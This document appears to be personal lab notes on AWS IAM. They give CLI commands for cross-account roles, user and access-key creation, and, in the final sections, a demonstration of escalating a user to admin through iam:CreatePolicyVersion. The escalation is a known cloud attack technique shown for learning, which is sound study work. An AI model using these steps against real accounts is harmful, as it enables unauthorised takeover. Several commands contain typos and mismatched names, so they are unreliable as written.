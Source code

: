 ## Introduction

- assume role for cross-account access
- aws iam privilege escaltion
- expoliting create-policy-version [HERE](https://bishopfox.com/blog/privilege-escalation-in-aws)

## Create a IAM Role

please export PRODUCT_ACCOUNT=1111-2222-3333-4444 we need to provide a trust policy to tell who or what service can assume the role

```bash
aws iam create-role \
--role-name RoleForAccessS3 \
--assume-role-policy-document \
file://trust_policy.json
```

update an existing role trust policy (relationship)

```bash
aws iam update-assume-role-policy \
--role-name RoleForAccessS3 \
--policy-document \
file://trust_policy.json
```

create a policy to allow accessing s3

```bash
aws iam create-policy \
--policy-name AccessS3PolicyCrossAccount \
--policy-document file://policy_access_s3.json
```

attach an policy to a role

```bash
aws iam attach-role-policy \
--role-name RoleForAccessS3 \
--policy-arn arn:aws:iam::$PRODUCT_ACCOUNT:policy/AccessS3PolicyCrossAccount
```

assume role from dev account

```bash
aws sts assume-role \
--role-arn arn:aws:iam::$PRODUCT_ACCOUNT:role/RoleForAccessS3 \
--role-session-name session
```

revoke to stop effectiveness of the role

## Create an Iam User

create an iam user (no aws console access)

```bash
aws iam create-user --user-name demo1
```

create an access key, take note the credentials returned

```bash
aws iam create-access-key --user-name cli-iam-demo
```

then configure aws profile

```bash
aws configure
```

## Create User Console Access

this is optinal

```bash
aws iam create-login-profile --generate-cli-skeleton > test.json
```

fill username and password into the temlate test.json and

```bash
aws iam create-login-profile --cli-input file://test.jon
```

## Apply a Policy to The User

allow the use to create new versions of policies

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "PrivEsc1",
      "Effect": "Allow",
      "Action": "iam:CreatePolicyVersion",
      "Resource": "arn:aws:iam::*:policy/*"
    }
  ]
}
```

create a policy and take note the policy arn

```bash
aws iam create-policy \
  --policy-name AlloCreatePolicyVersion \
  --policy-document file://policy.json
```

attach

```bash
aws iam attach-user-policy \
  --user cli-iam-demo \
  --policy-arn $POLICY_ARN
```

## Priveldge Escalation

now the user upgrate their permission to admin

```bash
aws iam create-policy-version \
-policy-arn $POLICY_ARN \
--policy-document file://admin_policy.json \
--set-as-default
```

## Helper

this will create a template for the input parameters so you know what to provide

```bash
aws iam create-policy --generate-cli-json
```

## Query contain

```bash
aws iam list-roles --query 'Roles[?contains(RoleName,`NoteBook`)]'
```
